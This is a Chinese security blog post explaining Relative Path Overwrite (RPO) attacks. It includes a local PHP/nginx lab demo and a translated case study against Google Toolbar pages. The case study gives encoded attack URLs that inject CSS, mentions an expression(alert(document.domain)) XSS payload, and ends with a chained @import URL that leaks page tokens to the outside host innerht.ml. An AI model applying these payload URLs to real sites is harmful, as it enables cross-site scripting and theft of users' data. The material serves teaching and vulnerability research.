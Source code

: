 ```yaml
---
layout: post
title:  "RPO相对路径覆盖的研究"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 什么是RPO

RPO (Relative Path Overwrite)相对路径覆盖，作为一种相对新型的攻击方式,由 Gareth Heyes在2014年首次提出，利用的是nginx服务器、配置错误的Apache服务器和浏览器之间对URL解析出现的差异，并借助文件中包含的相对路径的css或者js造成跨目录读取css或者js，甚至可以将本身不是css或者js的页面当做css或者js解析，从而触发xss等进一步的攻击手段  

## 什么情况会触发

触发这个漏洞有两个基本的前提:

> 1. Apache 配置错误导致AllowEncodedSlashes这个选项开启（对Apache来说默认情况下 AllowEncodedSlashes 这个选项是关闭的），或者nginx服务器  
> 2. 存在相对路径的js或者css的引用  

那么问题来了，为什么Apache不行Nginx可以？  
用的phpstudy 本地部署了apache.php和nginx.php  和一个空的test目录 都是echo相应的服务器名  
![图片1.png](https://i.loli.net/2020/01/24/oCd5gcRNVqYstIk.png)  
我们首先来看看Apache怎么说：  
![图片2.png](https://i.loli.net/2020/01/24/oXGdPVHyL4NimA6.png)  
Apache直接就不认识..%2f 我的天，那接下来看看nginx怎么说吧   
![图片3.png](https://i.loli.net/2020/01/24/LPyurjGITMldo4m.png)  
可以看到nginx吧..%2f当成了../也就是跳转到上一级目录的nginx.php 看起来是这样：127.0.0.1/rpo/nginx.php
所以apache默认是没有这玩意的

## 实验

在rpo目录下创建一个index.php 是这样子的:  

```PHP4
<html>

        <head></head>

        <body>

            <script src="a.js" charset="UTF-8"></script>

        </body>

    </html>

    <?php
	header("Content-type: text/html; charset=gb2312");
    echo "js 在test文件夹中";

?>
```

然后呢 test文件夹中有一个a.js 它只是一个普普通通的弹窗 并没有神马亮点：  
alert(“读取文件成功！”)  
然后我们尝试访问127.0.0.1/rpo/test/..%2findex.php  
![图片4.png](https://i.loli.net/2020/01/24/x2nMchZzVfOe4PC.png)  
果然 他成功弹窗了a.js的内容，那这时候就会有童鞋问了 我直接访问不行吗？  
![图片5.png](https://i.loli.net/2020/01/24/Ef43epuYOI61lMD.png)  
很遗憾并不行 咋肥四呢？这就是相对路径覆盖的魅力了  
我们向服务器提交我们想请求的URL  
[http://localhost/RPO/test/..%2findex.php](http://localhost/RPO/test/..%2findex.php)  
聪明的服务器会把..%2f自动进行URL解码，所以实际上服务器端看到你请求的URL是下面的样子：  
http://localhost/RPO/test/../index.php  
我们知道../ 在URL中会被理解成上一层目录，所以服务器实际上认为你访问的是下面的URL，并把index.php的内容返回给天真的浏览器  
http://localhost/RPO/index.php  
接下来浏览器的工作就是根据URL的路径处理index.php中引用的使用相对地址的脚本，可是万万没想到，浏览器它并不认识..%2f！！！于是URL在它眼里依旧是那可爱的样子：  
http://localhost/RPO/test/..%2findex.php  
此时无知的浏览器已经把..%2findex.php当成了一个文件，可它还是严格按照脚本的要求加载当前目录下的a.js文件，而对它来说现在的当前目录已变成了test，自然而然test（同目录）下的a.js就被成功加载了（同目录下嘛，嘿嘿你懂的！）  
那此时又有小伙伴问了 那我们做不到可控人家网站的js呀！是的 我们是无法直接控制人家服务器的js，但rpo另一个特点是，我们可以将服务器返回的内容按照js脚本的方式解析！而且因为是外部引用js 我们甚至都不需要标签  
这里我就不多赘述，给大家奉上一篇已经过翻译和标注的国外文章，希望各位能加深理解  

## 发现RPO

目前我们可以知道的RPO利用例子是James的PRSSI ，它依赖于CSS解析器容忍在quirks mode中的非法语法（也称为松散解析），所以查找RPO漏洞的第一步就是检查页面的是否有正确的doctype  
我找到一个目标：
http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html  
<html>  <head>  <title>Google Toolbar API - Guide to Making Custom Buttons</title>  <link href="../../styles.css" rel="stylesheet" type="text/css" />  
第二步涉及到服务器如何解析路径。对于浏览器来说，目录之间被“/”隔开。对于服务器来说，这并不意味着一定是目录，比如说JSP接收参数时会将“;”后的内容全部视为参数 (e.g. http://example.com/path;/notpath)，这种情况下浏览器只会认为/patn;/notpath依旧是目录  
在目标中我找到可以利用RPO的地方，那里似乎有一个代理处理请求并解码路径中的内容，然后将其发送到真正的服务器。 这允许我们在路径中用％2f替换斜杠：  
http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html  
![图片6.png](https://i.loli.net/2020/01/24/atV8ZkMiE3PdGep.png)  

> Server:  
> **/tools/toolbar/buttons/apis/** howto_guide.html  
> Browser:  
> **/tools/toolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/** style.css   
> （加粗的表示为基本路径）  

现在浏览器认为基本路径是/tools/toolbar/buttons/而不是/tools/toolbar/buttons/apis/，因此对../../style.css的引用会多跳一个目录  
我们还能伪造目录，比如我们想加载的css文件在/tools/fake/styles.css：http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html  

> Server：   
> **/tools/ (fake/../抵消) toolbar/buttons/apis/** howto_guide.html   
> Browser：   
> **/tools/fake/..%2ftoolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/fake/**..%2ftoolbar/buttons/../../style.css   

这里我们添加了二个虚拟目录：fake和..%2f，这样在server角度下就互相抵消了，然后浏览器认为fake和..%2ftoolbar为目录。理论上，我们可以在根目录下导入任何样式表（www.google.com/*/styles.css），不幸的是这个代理只能处理（www.google.com/tools/*/styles.css），不是tools目录中的css文件就无法导入  
除了按钮Gallery 外都是些静态元素，http://www.google.com/tools/toolbar/buttons/gallery会重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1  
按钮Gallery有一个q参数，可以制作RPO的payload：http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}  
效果如图所示:  
![图片7.png](https://i.loli.net/2020/01/24/qzEIA61wmiQHbC8.png)  
现在要做的就是如何以CSS方式来加载该页面。一种方法就是重定向处理查询字符串，例如，http://www.google.com/tools/toolbar/buttons/gallery?foo=bar会将我们重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&foo=bar， 查询的字符串会附加上  
最后一步就是构造查询字符串了：http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html  

> Server:   
> **/tools/toolbar/buttons/** (gallery?q=%0a{}*{background:red}/../抵消) /apis/ howto_guide.html   
> Browser:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/** howto_guide.html   
> Imported stylesheet:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D** /..%2f/apis/../../style.css   
> ⇓   
> /tools/toolbar/buttons/gallery?**q=%0a{}*{background:red}/style.css**   
> ⇓   
> /gadgets/directory?synd=toolbar&frontpage=1&**q=%0a{}*{background:red}/style.css**  

![图片8.png](https://i.loli.net/2020/01/24/VQ1N957F8vmzMtq.png)  

看成功了，满页面都是红色。我们还能使用expression(alert(document.domain))，在IE8可以成功弹窗，但是在IE9却失败了。那是因为谷歌的defense-in-depth防止按钮以css方式加载（X-Content-Type-Options:nosniff 选项来关闭IE的文档类型自动判断功能）  
突然间所有的努力都是徒劳的，因为Google漏洞奖励计划（VRP）规则清楚地表明：In particular, we exclude Internet Explorer prior to version 9  

## Chaining Gadgets

嗯，如果我们使用RPO窃取其他页面上的秘密呢？ CSS的另一个有趣的事情是，在quirks mode下，只要它们在同一个起源，那么松散解析就适用于所有导入的样式表。这样就开启了一个新的可能性，因为我们可以使用Button Gallery作为小工具将https://www.google.com/*上的任何网页导入为样式表，如果导入的“样式表”包含隐私数据和注入点，我们可以 尝试通过注入CSS魔法来窃取它  

这样的页面要求是：  
> * 注入点需要在隐私数据之前  
> * 注入点需要允许％0a，％0c和％0d中的任何一个，以便可以从错误的状态恢复解析器状态  
> * 隐私数据及其周围不能包含换行符  

我花了些时间找到了符合的页面：http://www.google.com/search?nord=1&**q={}%0a@import”//innerht.ml?**  
首先要注意的是，该页面针对速度进行了优化，因此HTML被压缩过，只有少数换行符。可以看到有一些随机生成的token。 我不知道他们代表什么，但是能够窃取他们应该足以证明这次攻击确实会渗透到数据中。截图中突出显示的部分是css魔术发生的地方：我们使用@import“// innerht.ml？创建import规则，然后直到双引号的所有内容将作为受控URL的一部分使用，最后浏览器会向import“URL”发出请求，我们就可以获取到数据内容  
http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D%2540import%2527%252Fsearch%253Fnord%253D1%2526q%253D%257B%257D%25250a%2540import%252527%252F%252Finnerht.ml%253F%2522/..%2f/apis/howto_guide.html  

